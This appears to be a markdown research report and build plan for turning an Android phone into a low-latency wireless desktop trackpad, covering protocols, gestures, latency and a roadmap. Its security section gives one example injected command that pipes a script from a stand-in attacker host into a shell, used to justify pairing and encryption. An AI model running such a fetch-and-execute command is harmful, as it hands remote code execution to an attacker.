


# Comprehensive Research Report & Technical Architecture
## Android Smartphone Touchscreen as a Wireless Desktop Mouse / Trackpad

---

### Executive Overview & Problem Context
Traditional pointing peripherals (physical mice and mechanical trackpads) remain the primary input standard for desktop productivity due to their precision, tactile feedback, and ergonomic stability. However, when mobile, during presentations, or during hardware battery failures, converting a ubiquitous Android smartphone into an ultra-low-latency, multi-touch desktop trackpad offers immense practical value.

This research report synthesizes findings from **8 seminal open-source implementations**, the landmark **Springer Handpad academic research paper**, and underlying **Android/OS low-level input subsystems**. It presents an exhaustive comparison of architectures, protocols, ballistics algorithms, latency physics, security constraints, and delivers an optimal production engineering roadmap.

---

## 1. Architectural Comparison of Prior Art & Research

Below is the comparative analysis across the primary reference projects, academic literature, and operating system interfaces:

| Project / Reference | Primary Transport | Android API Layer | Desktop Technology | Virtual HID? | Touchpad / Gestures | Keyboard / Media | Screen Mirroring | Encryption / Security | End-to-End Latency | Host OS Support |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| **KDE Connect** | Wi-Fi (UDP discovery + TCP/TLS) | `MotionEvent`, `GestureDetector` | C++ / Qt, `uinput` (Linux), `SendInput` (Win) | Optional (`uinput` on Linux) | Single tap, 2-finger scroll, right click, middle click | Full keyboard, media keys, custom commands | Remote slide viewer only | TLS (RSA/ECDSA + device pairing) | 8 – 20 ms | Linux (Primary), Windows, macOS |
| **Handpad (Springer Paper)** | USB (AOA 1.0 - Android Open Accessory) | Multi-touch centroid tracking (4-finger centroid, thumb excluded via spanning angle) | C++ / Win32 API (`SetCursorPos`, `mouse_event`) | No (Direct user32 injection) | Whole-hand resting posture, lift-and-place click, 2-finger scroll | No (Mouse only) | No | Physical USB cable isolation | 2 – 5 ms | Windows |
| **Mousedroid** | Wi-Fi (TCP/UDP), Bluetooth RFCOMM, USB (ADB) | `MotionEvent`, custom gesture recognizer | Java (`java.awt.Robot`) / C++ Win32 | No | 1-finger move, 2-finger scroll, pinch zoom, tap clicks | Soft keyboard, numeric keypad | No | Plaintext / basic handshake | 5 – 15 ms (Wi-Fi), 15 – 30 ms (BT RFCOMM) | Windows, Linux |
| **TouchBridge** | UDP Discovery + WebSocket / HTTP | Android SDK, HTML5 Touch API (Hybrid) | Node.js / Python Win32 (`SendInput`) | No | Move, left/right tap, 2-finger scroll, drag & drop | Keyboard relay, modifier keys | WebRTC / Canvas screen stream | Optional TLS / token auth | 8 – 16 ms | Windows |
| **OpenMouse** | Wi-Fi (TCP socket) | Kotlin `MotionEvent` listener | Python (`pynput`, `pyautogui`) | No | Basic move, click, scroll | Media playback, volume controls | No | Plaintext local socket | 10 – 25 ms | Windows, Linux, macOS |
| **Linkpad** | Bluetooth HID Profile | `android.bluetooth.BluetoothHidDevice` (API 28+) | Native OS Bluetooth Stack (Zero software on host) | **YES** (Host sees genuine USB-IF Bluetooth Mouse) | 1-finger move, single/double tap, 2-finger scroll | Bluetooth HID Keyboard profile | No | Bluetooth SSP (Secure Simple Pairing, AES-128) | 4 – 10 ms | Windows, macOS, Linux, ChromeOS, Smart TVs |
| **Vexra** | Wi-Fi (WebSocket on LAN) | React Native / Flutter touch engine | Go / C# desktop daemon | No | 1-finger glide, 2-finger tap, pinch, swipe, modifier keys | Keyboard with Ctrl/Alt/Super shortcuts | No | 6-digit PIN pairing, local network restriction | 6 – 14 ms | Windows |
| **Pocket Desktop** | WebSocket / WebRTC | `MotionEvent` + Coordinate Normalization `mapPoint()` | Electron / Node.js + C++ addon (`robotjs`) | No | Relative trackpad mode + Absolute touch mapping on mirrored screen | Full keyboard, application launcher | **YES** (Real-time screen capture + display) | WSS (WebSocket Secure) + Token | 20 – 45 ms (due to video pipeline) | Windows |
| **scrcpy** | USB / TCP (ADB tunnel) | Android internal `InputManager`, MediaCodec | C / SDL2, FFmpeg, raw H.264/H.265 | Injects via Android `app_process` agent | (Desktop controls phone, reverse direction) | Injects keycodes via HID/AOA | **YES** (Ultra-low-latency 60FPS mirroring) | ADB authorization keys | 25 – 45 ms (glass-to-glass) | Windows, Linux, macOS |

---

## 2. Protocol Comparison: Transmission Layer Trade-offs

A wireless trackpad demands near-real-time throughput, deterministic delivery for critical state changes (clicks, button releases), and discardability for intermediate position updates.



### Detailed Protocol Analysis:

1. **UDP (User Datagram Protocol):**
   - **Characteristics:** Connectionless, packet size ~20–40 bytes, zero connection maintenance, zero retransmission delay.
   - **Best Used For:** Pointer movement ($\Delta X, \Delta Y$). If a movement packet is dropped or delayed over Wi-Fi, retransmitting it is actively harmful because newer pointer coordinates have already superseded it. Retransmission causes cursor stutter/jumping.
   - **Risk:** Unreliable packet delivery. If a "Button Down" packet is dropped, the desktop mouse gets stuck in a perpetual drag state unless an explicit keepalive or release timeout is implemented.

2. **WebSocket over TCP:**
   - **Characteristics:** Full-duplex, persistent connection, guaranteed delivery, strictly ordered, frames wrapped with masking and opcodes.
   - **Best Used For:** Discrete state changes (Left/Right Clicks, Key Press/Release, Mode toggling, Device Authentication, Clipboard synchronization).
   - **Risk:** TCP Head-of-Line Blocking: In lossy Wi-Fi environments, if one packet drops, all subsequent movement deltas are held in the TCP buffer until the dropped packet is retransmitted, causing visible cursor freeze followed by an erratic catch-up surge.

3. **Hybrid Protocol (The Industry Gold Standard):**
   - Use **Dual-Channel Transmission**:
     - **Channel A (UDP):** Continuous high-frequency stream of relative motion ($\Delta X, \Delta Y$, scroll deltas) with monotonic sequence numbers.
     - **Channel B (TCP / WebSocket):** Discrete critical events (Clicks, Keydowns, Authentication, Pairing).

4. **Bluetooth HID (Human Interface Device over L2CAP):**
   - **Characteristics:** Directly uses the standard Bluetooth HID Profile (HIDP) over L2CAP channels 0x0011 (Control) and 0x0013 (Interrupt).
   - **Advantage:** Zero PC companion software required. The desktop OS handles input injection in the kernel.
   - **Disadvantage:** Does not support auxiliary features like screen mirroring, file transfer, or custom AI macros without opening a secondary concurrent RFCOMM/GATT channel.

---

## 3. Gesture Mapping & Human-Computer Interaction (HCI)

### Lessons from the Handpad Paper
The Handpad study proved that directly touching a vertical desktop display causes severe muscular fatigue (the classic "Gorilla Arm" phenomenon) and that touching a screen directly obscures target elements ("Occlusion / Fat Finger problem", yielding twice the target miss rate compared to a mouse). 

Crucially, the paper demonstrated that **Indirect Multi-Touch** (resting a hand horizontally and translating relative finger gestures into remote screen coordinates) achieves mouse-equivalent precision if three ergonomic principles are satisfied:
1. **Stand-by / Resting Posture:** The user must be able to rest fingers on the touch surface without triggering accidental cursor movement or clicks.
2. **Thumb Disambiguation:** The thumb must be isolated (Handpad used the largest spanning angle from the hand centroid) and excluded from the cursor displacement vector to prevent jitter.
3. **Lift-and-Place Click Dynamics:** While physical trackpads use tactile pressure switches, virtual touchpads must differentiate between a stationary finger rest, a dynamic glide, a discrete tap, and a drag-lock.

### Comprehensive Gesture Mapping Specification

```
+---------------------+-------------------------------+------------------------------------------+
| Gesture Type        | Touch Input Event             | Synthesized Desktop Action               |
+---------------------+-------------------------------+------------------------------------------+
| 1-Finger Glide      | 1 Pointer moving              | Relative Mouse Move (dx, dy * ballistic) |
| Single Tap (<200ms) | 1 Pointer down & up, dx,dy<5px| Left Mouse Click (Down + 30ms + Up)      |
| Double Tap          | 2 consecutive taps in <300ms  | Left Double Click                        |
| Double-Tap & Hold   | Tap, then immediate Down+Move | Left Button Down (Drag & Drop lock)      |
| 2-Finger Tap        | 2 Pointers down & up in <250ms| Right Mouse Click (Context Menu)         |
| 2-Finger Drag (Vert)| 2 Pointers moving vertically  | Mouse Wheel Scroll (smooth vertical dy)  |
| 2-Finger Drag (Horz)| 2 Pointers moving horizontally| Horizontal Scroll (dx)                   |
| Pinch In / Out      | 2 Pointers distance delta     | Ctrl + Scroll Wheel (Universal Zoom)     |
| 3-Finger Swipe Up   | 3 Pointers moving upward      | Task View / Mission Control (Win+Tab)    |
| 3-Finger Swipe Down | 3 Pointers moving downward    | Show Desktop (Win+D)                     |
| 3-Finger Swipe L/R  | 3 Pointers moving laterally   | Switch Active App / Desktop (Alt+Tab)    |
| Dedicated Zones     | Bottom 15% split touch areas  | Discrete Hardware-style Left/Right Click |
+---------------------+-------------------------------+------------------------------------------+
```

---

## 4. Relative vs. Absolute Coordinate Mapping & Trackpad Ballistics

### 4.1 The Flaw of Absolute Mapping
Blindly mapping phone coordinates $(X_{phone}, Y_{phone})$ to desktop coordinates $(X_{desktop}, Y_{desktop})$ via linear scaling:
$$X_{desktop} = X_{phone} \times \frac{W_{desktop}}{W_{phone}}$$
fails completely for a trackpad:
1. **Aspect Ratio Mismatch:** A modern phone has a 20:9 or 19.5:9 portrait ratio; a desktop display is 16:9 or 21:9 landscape.
2. **Resolution Discrepancy:** A 1080×2400 phone screen mapped to a 3840×2160 4K desktop forces 1 phone pixel to jump ~3.5 desktop pixels, destroying micro-targeting precision.
3. **Reachability:** The user cannot lift and reposition their finger to traverse large screens without the desktop cursor jumping violently across the display.

*Exception:* Absolute mapping is **only** desirable when the desktop screen is being mirrored directly onto the phone screen (as in *Pocket Desktop* or *scrcpy*).

### 4.2 Relative Motion Vector Formulation
Trackpad navigation must rely purely on relative motion vectors:
$$\Delta x = x_t - x_{t-1}, \quad \Delta y = y_t - y_{t-1}$$

### 4.3 Non-Linear Ballistic Acceleration Curve
A physical trackpad feels natural because it uses a non-linear velocity curve:
- **Low finger velocity:** The cursor moves sub-linearly (1:1 or less) allowing single-pixel precision for clicking small UI targets, text selection, and close buttons.
- **High finger velocity:** The cursor accelerates quadratically or exponentially, allowing a quick 2-centimeter flick of the thumb to traverse an entire multi-monitor desktop.

The recommended mathematical ballistics function:
$$v_{finger} = \frac{\sqrt{\Delta x^2 + \Delta y^2}}{\Delta t}$$
$$\text{Gain}(v) = S \cdot \left(1.0 + \alpha \cdot \left(\frac{v_{finger}}{v_{threshold}}\right)^\gamma\right)$$
$$\Delta X_{cursor} = \Delta x \cdot \text{Gain}(v), \quad \Delta Y_{cursor} = \Delta y \cdot \text{Gain}(v)$$

Where:
- $S$: Base user sensitivity multiplier ($0.5 \le S \le 3.0$)
- $\alpha$: Acceleration strength coefficient ($\approx 0.4 - 0.7$)
- $v_{threshold}$: Inflection velocity separating precision from ballistic traversal
- $\gamma$: Curvature exponent ($1.2 \le \gamma \le 1.8$)

---

## 5. Wi-Fi Remote Input vs. Bluetooth HID: Deep Comparison

```
+------------------------+------------------------------------+---------------------------------------+
| Evaluation Vector      | Approach A: Wi-Fi Remote Input     | Approach B: Bluetooth HID Device      |
+------------------------+------------------------------------+---------------------------------------+
| Desktop Software Req.  | Mandatory (Companion .exe / daemon)| ZERO (Native OS built-in mouse driver)|
| Network Requirement   | Same LAN, Wi-Fi router, or Hotspot | None (Direct 2.4GHz RF connection)   |
| Corporate / Locked PCs | Often blocked by IT/Admin policies | 100% Plug & Play on any computer      |
| Latency                | 1 – 5 ms (UDP), 5 – 15 ms (WS)     | 4 – 10 ms (Standard Bluetooth L2CAP)  |
| Ecosystem Support      | Windows, macOS, Linux (custom apps)| Any host supporting Bluetooth Mice    |
| Feature Extensibility  | Unlimited (Screen share, AI, files)| Limited to HID Descriptors (Mouse/Kbd)|
| Implementation Risk    | Low (Standard networking sockets)  | High (OEM Android bugs, Funtouch/MIUI)|
| Reliability            | Extremely reliable on Hotspot/LAN  | Susceptible to OS bond profile cache  |
+------------------------+------------------------------------+---------------------------------------+
```

### Strategic Conclusion:
- **Bluetooth HID** is ideal for pure, single-purpose mouse emulation without any desktop installations. However, real-world testing shows frequent Bluetooth profile caching conflicts on Windows and vendor-specific HID API bugs across Android OEMs (Vivo/iQOO, Xiaomi, Samsung).
- **Wi-Fi / Hotspot (UDP + WebSocket)** provides complete reliability, supports advanced features (custom gestures, low-latency screen feedback, auto-discovery), and when paired with a zero-install portable single `.exe` on the desktop, delivers the optimal user experience.

---

## 6. Latency Analysis: The Glass-to-Cursor Pipeline

To achieve an experience indistinguishable from a physical trackpad, the total system latency must remain **below 20 milliseconds** (ideally $\le 10\text{ ms}$).

```
[Touch Surface] ──(4-8ms)──> [OS Touch Pipeline] ──(0.5ms)──> [Serialization]
       │
       └──(1-4ms Network RTT)──> [Desktop Receiver] ──(0.5ms)──> [OS Input Injection] ──(8ms VSync)──> [Display Cursor]
```

### Breakdown of Pipeline Latencies:
1. **Touchscreen Polling (Hardware):**
   - 60Hz touch sampling rate: $\approx 16.6\text{ ms}$ interval.
   - 120Hz/240Hz touch sampling rate (Modern smartphones): **$4.1\text{ ms} - 8.3\text{ ms}$**.
2. **Android Event Dispatch (`MotionEvent`):** $\approx 0.5 - 1.0\text{ ms}$.
3. **Serialization & Packet Assembly:**
   - Binary packet (`[flags:1B, dx:2B, dy:2B, wheel:2B]` = 7 bytes): **$<0.1\text{ ms}$**.
   - JSON encoding: $\approx 0.4 - 0.8\text{ ms}$ (Avoid JSON in high-frequency move loops!).
4. **Network Transport:**
   - Wi-Fi 5/6 Local LAN (UDP): **$1.0 - 3.5\text{ ms}$**.
   - USB ADB Forwarding (`127.0.0.1`): **$<0.5\text{ ms}$**.
5. **Desktop Packet Processing & Input Injection:**
   - Windows `SendInput()` (User32 C API): **$<0.2\text{ ms}$**.
   - Python `ctypes` overhead: $\approx 0.4\text{ ms}$.
   - Python `pyautogui` overhead: $\approx 10 - 20\text{ ms}$ (Avoid! `pyautogui` has artificial internal pause delays).
6. **Desktop Display Refresh (VSync):**
   - 60Hz monitor: $\approx 16.6\text{ ms}$ (average frame wait $8.3\text{ ms}$).
   - 144Hz monitor: $\approx 6.9\text{ ms}$ (average frame wait $3.4\text{ ms}$).

**Total Glass-to-Cursor Latency: $\approx 8.5 - 16\text{ ms}$ (Meets professional human perception thresholds).**

---

## 7. Security Architecture for Local-Network Remote Input

Exposing an unauthenticated input receiver on a local network creates an attack vector where malicious network actors can inject arbitrary keystrokes (e.g., executing `Win+R -> cmd -> curl evil.com | sh`).

### Required Security Measures:
1. **Network Binding Isolation:**
   - Bind default listeners strictly to Private Network subnets (`192.168.0.0/16`, `10.0.0.0/8`, `172.16.0.0/12`).
   - Block public WAN interfaces.
2. **Device Discovery & Cryptographic Pairing:**
   - **Phase 1 (Discovery):** UDP beacon with hostname.
   - **Phase 2 (Pairing):** Diffie-Hellman Key Exchange (Curve25519) + 6-digit Out-of-Band (OOB) numeric PIN displayed on desktop and entered on the phone (modeled after KDE Connect and Bluetooth SSP).
   - **Phase 3 (Authenticated Session):** Symmetric AES-GCM-128 or ChaCha20-Poly1305 encryption for discrete commands (keystrokes, clicks) with HMAC verification.
3. **High-Speed Movement Channel:**
   - Fast-path UDP packets for mouse delta coordinates authenticated via a lightweight session nonce/token (32-bit rolling MAC) to prevent packet replay without incurring heavy asymmetric decryption latency.

---

## 8. Recommended MVP Architecture



### Binary Fast-Path Motion Frame (7 Bytes):
```
+---------------+---------------+---------------+---------------+
| Byte 0        | Bytes 1 - 2   | Bytes 3 - 4   | Bytes 5 - 6   |
| Packet Type   | Delta X       | Delta Y       | Scroll Delta  |
| (0x01 = Move) | (int16_t, LE) | (int16_t, LE) | (int16_t, LE) |
+---------------+---------------+---------------+---------------+
```
Using packed 7-byte binary UDP datagrams drops network serialization time to **under 0.05 milliseconds**, cutting bandwidth to $<10\text{ KB/s}$ at 120Hz.

---

## 9. Recommended Technology Stack

| Layer | Recommended Choice | Rationale |
| :--- | :--- | :--- |
| **Mobile Client** | **Flutter** or **Kotlin (Jetpack Compose)** | Flutter provides cross-platform UI flexibility, direct `CustomPainter` canvas, low-level `RawDatagramSocket`, and 120Hz touch handling. |
| **Desktop Receiver** | **Python (ctypes + SendInput)** or **Go / Rust** | Python with `ctypes.windll.user32.SendInput` allows instant cross-platform prototyping with hardware-level zero-latency Windows injection; can be compiled to a single 6MB standalone `.exe` using PyInstaller. |
| **Motion Transport** | **Raw UDP Sockets** | Lowest latency, zero retransmission queue bloat. |
| **State Transport** | **WebSocket / TCP** | Guaranteed ordering for clicks, text typing, pairing negotiation. |
| **Discovery Protocol** | **Dual-Gateway Probing + UDP Broadcast** | Combines active probes to default gateways (`192.168.137.1` for Windows Hotspot, `192.168.43.1` for Android Hotspot) with subnet broadcast (`255.255.255.255`). |
| **USB Fail-Safe** | **ADB Port Forwarding (`adb forward tcp:8989 tcp:8989`)** | Provides a sub-millisecond wired connection when Wi-Fi is unavailable. |

---

## 10. Modular Project Directory Structure

```text
AeroPad/
├── android_client/                     # Android / Flutter Client Application
│   ├── lib/
│   │   ├── core/
│   │   │   ├── network/
│   │   │   │   ├── discovery_service.dart   # UDP & Gateway auto-discovery
│   │   │   │   ├── udp_motion_client.dart   # Low-latency 7-byte binary sender
│   │   │   │   └── tcp_command_client.dart  # Guaranteed event stream
│   │   │   └── gesture/
│   │   │       ├── ballistics_engine.dart   # Non-linear velocity scaling
│   │   │       ├── gesture_recognizer.dart  # Taps, 2-finger scroll, pinch, drag
│   │   │       └── touch_model.dart         # Multi-touch centroid math
│   │   ├── ui/
│   │   │   ├── trackpad_screen.dart         # Edge-to-edge dark minimalist canvas
│   │   │   ├── particle_lattice_painter.dart# 120FPS GPU-culled waving wavefield
│   │   │   ├── settings_screen.dart         # Sensitivity, invert scroll, pairing
│   │   │   └── widgets/
│   │   │       ├── click_dock.dart          # Tactile Left/Right click zones
│   │   │       └── connection_pill.dart     # Live status & latency badge
│   │   └── main.dart
│   └── pubspec.yaml
│
├── desktop_server/                     # Lightweight Desktop Agent
│   ├── server.py                       # Main async daemon (UDP + TCP + Discovery)
│   ├── input_injector/
│   │   ├── windows_injector.py         # Win32 SendInput (Hardware C API)
│   │   ├── linux_injector.py           # uinput / libevdev kernel injection
│   │   └── mac_injector.py             # CGEventSource / Quartz Event Services
│   ├── discovery_beacon.py             # Multi-interface broadcast responder
│   ├── security.py                     # PIN generation, pairing, session token
│   ├── requirements.txt                # pynput, pywin32 (optional fallback)
│   └── build_standalone.bat            # PyInstaller one-click single .exe packager
│
├── docs/                               # Engineering & Academic Reference
│   ├── project_abstract.docx           # Formal specification document
│   └── Handpad_Paper_Analysis.md       # Extracted academic findings
│
├── assets/
│   ├── banner.png                      # Visual project branding
│   └── ui.png                          # Official UI pixel reference
│
├── README.md                           # Comprehensive GitHub documentation
├── CONTRIBUTING.md                     # Open-source contribution guidelines
└── LICENSE                             # MIT License
```

---

## 11. Step-by-Step Implementation Roadmap

```mermaid
gantt
    title AeroPad Engineering Implementation Phases
    dateFormat  X
    axisFormat Phase %s
    section Core Trackpad MVP
    Phase 1: Touchpad Surface & Ballistics Engine     :active, 0, 2
    Phase 2: Ultra-Low-Latency Network Transport      :1, 3
    section Control Enhancements
    Phase 3: Multi-Touch Gestures & Scroll           :2, 4
    Phase 4: Virtual Keyboard & Media Hotkeys        :3, 5
    section Reliability & Security
    Phase 5: Auto-Discovery, Pairing & Encryption     :4, 6
    section Advanced Features
    Phase 6: Screen Mirroring & Coordinate Mapping   :5, 7
    Phase 7: Native Bluetooth HID Hardware Mode      :6, 8
```



### Phase-by-Phase Technical Deliverables:

- **Phase 1 — Touch Surface & Motion Ballistics:**
  - Implement edge-to-edge Flutter touch canvas (`Listener` capturing raw `PointerEvent` stream).
  - Implement relative displacement tracker: $\Delta x = x_t - x_{t-1}$.
  - Apply the Handpad velocity-based ballistics curve: $v_{gain} = S \cdot (1 + \alpha \cdot v^\gamma)$.
  - Integrate the 120 FPS distance-culled **Interactive Generative Particle Lattice** background.

- **Phase 2 — Ultra-Low-Latency Network Transport:**
  - Build the Python desktop receiver using Win32 `SendInput` (via `ctypes`).
  - Implement packed 7-byte binary UDP transmission for mouse deltas.
  - Benchmark and verify glass-to-cursor latency under 12 milliseconds.

- **Phase 3 — Multi-Touch Gestures & Scroll:**
  - Implement discrete single-finger tap ($<200\text{ ms}$, travel $<5\text{ px}$) $\to$ Left Click.
  - Implement two-finger simultaneous tap $\to$ Right Click.
  - Implement two-finger vertical glide $\to$ Smooth variable-speed wheel scrolling.
  - Implement double-tap-and-hold $\to$ Left button down drag-and-drop lock with haptic tick.

- **Phase 4 — Keyboard & Media Controls:**
  - Open system soft keyboard on demand; transmit standard UTF-8 characters and virtual keycodes (`VK_RETURN`, `VK_BACK`, `VK_ESCAPE`).
  - Add quick media control pills: Volume Up, Volume Down, Mute, Play/Pause.

- **Phase 5 — Auto-Discovery, Hotspot Pairing & Security:**
  - Implement dual-subnet gateway probing: Phone automatically probes `192.168.137.1` (Windows Hotspot) and `192.168.43.1` (Android Hotspot).
  - Implement UDP discovery responder on PC (`0.0.0.0:8988`).
  - Add 6-digit PIN pairing handshake on initial connection to secure against unauthorized network users.

- **Phase 6 — Low-Latency Screen Mirroring & Absolute Touch Mode:**
  - Desktop: Integrate Windows Graphics Capture (DirectX DXGI Desktop Duplication API) with hardware NVENC/AMF H.264 encoding.
  - Mobile: Receive video stream via WebRTC/UDP; toggle trackpad mode to **Interactive Remote Desktop**.
  - Implement the `mapPoint()` normalization algorithm:
    $$X_{target} = \frac{x_{touch} - x_{offset}}{W_{rendered}} \times W_{desktop}$$

- **Phase 7 — Bluetooth HID Native Hardware Mode (Linkpad Model):**
  - Implement Android's `BluetoothHidDevice` API with standard 4-byte mouse descriptor as an optional zero-software fallback for locked workstations and presentation remotes.
